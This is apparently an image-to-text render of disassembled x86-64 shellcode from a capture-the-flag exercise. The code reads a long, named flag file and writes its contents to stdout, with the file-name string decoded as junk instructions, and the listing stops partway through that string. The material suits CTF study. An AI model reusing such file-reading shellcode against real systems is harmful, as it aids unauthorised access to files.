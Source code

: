 ```bash
  400098:	48 8d 75 9c          	lea    -0x64(%rbp),%rsi
  40009c:	89 da                	mov    %ebx,%edx
  40009e:	48 c7 c0 00 00 00 00 	mov    $0x0,%rax
  4000a5:	0f 05                	syscall 
  4000a7:	bf 01 00 00 00       	mov    $0x1,%edi
  4000ac:	48 8d 75 9c          	lea    -0x64(%rbp),%rsi
  4000b0:	89 da                	mov    %ebx,%edx
  4000b2:	48 c7 c0 01 00 00 00 	mov    $0x1,%rax
  4000b9:	0f 05                	syscall 
  4000bb:	48 8b 04 25 80 00 00 	mov    0x80,%rax
  4000c2:	00 
  4000c3:	0f 05                	syscall 

00000000004000c5 <do_call>:
  4000c5:	e8 bd ff ff ff       	callq  400087 <jmp_back>

00000000004000ca <name>:
  4000ca:	74 68                	je     400134 <name+0x6a>
  4000cc:	69 73 5f 69 73 5f 70 	imul   $0x705f7369,0x5f(%rbx),%esi
  4000d3:	77 6e                	ja     400143 <name+0x79>
  4000d5:	61                   	(bad)  
  4000d6:	62                   	(bad)  
  4000d7:	6c                   	insb   (%dx),%es:(%rdi)
  4000d8:	65 2e 6b 72 5f 66    	gs imul $0x66,%cs:0x5f(%rdx),%esi
  4000de:	6c                   	insb   (%dx),%es:(%rdi)
  4000df:	61                   	(bad)  
  4000e0:	67 5f                	addr32 pop %rdi
  4000e2:	66 69 6c 65 5f 70 6c 	imul   $0x6c70,0x5f(%rbp,%riz,2),%bp
  4000e9:	65 61                	gs (bad) 
  4000eb:	73 65                	jae    400152 <name+0x88>
  4000ed:	5f                   	pop    %rdi
  4000ee:	72 65                	jb     400155 <name+0x8b>
  4000f0:	61                   	(bad)  
  4000f1:	64 5f                	fs pop %rdi
  4000f3:	74 68                	je     40015d <name+0x93>
  4000f5:	69 73 5f 66 69 6c 65 	imul   $0x656c6966,0x5f(%rbx),%esi
  4000fc:	2e 73 6f             	jae,pn 40016e <name+0xa4>
  4000ff:	72 72                	jb     400173 <name+0xa9>
  400101:	79 5f                	jns    400162 <name+0x98>
  400103:	74 68                	je     40016d <name+0xa3>
  400105:	65 5f                	gs pop %rdi
  400107:	66 69 6c 65 5f 6e 61 	imul   $0x616e,0x5f(%rbp,%riz,2),%bp
  40010e:	6d                   	insl   (%dx),%es:(%rdi)
  40010f:	65 5f                	gs pop %rdi
  400111:	69 73 5f 76 65 72 79 	imul   $0x79726576,0x5f(%rbx),%esi
  400118:	5f                   	pop    %rdi
  400119:	6c                   	insb   (%dx),%es:(%rdi)
  40011a:	6f                   	outsl  %ds:(%rsi),(%dx)
  40011b:	6f                   	outsl  %ds:(%rsi),(%dx)
  40011c:	6f                   	outsl  %ds:(%rsi),(%dx)
  40011d:	6f                   	outsl  %ds:(%rsi),(%dx)
  40011e:	6f                   	outsl  %ds:(%rsi),(%dx)
  40011f:	6f                   	outsl  %ds:(%rsi),(%dx)
  400120:	6f                   	outsl  %ds:(%rsi),(%dx)
  400121:	6f                   	outsl  %ds:(%rsi),(%dx)
  400122:	6f                   	outsl  %ds:(%rsi),(%dx)
  400123:	6f                   	outsl  %ds:(%rsi),(%dx)
  400124:	6f                   	outsl  %ds:(%rsi),(%dx)
  400125:	6f                   	outsl  %ds:(%rsi),(%dx)
  400126:	6f                   	outsl  %ds:(%rsi),(%dx)
  400127:	6f                   	outsl  %ds:(%rsi),(%dx)
  400128:	6f                   	outsl  %ds:(%rsi),(%dx)
  400129:	6f                   	outsl  %ds:(%rsi),(%dx)
```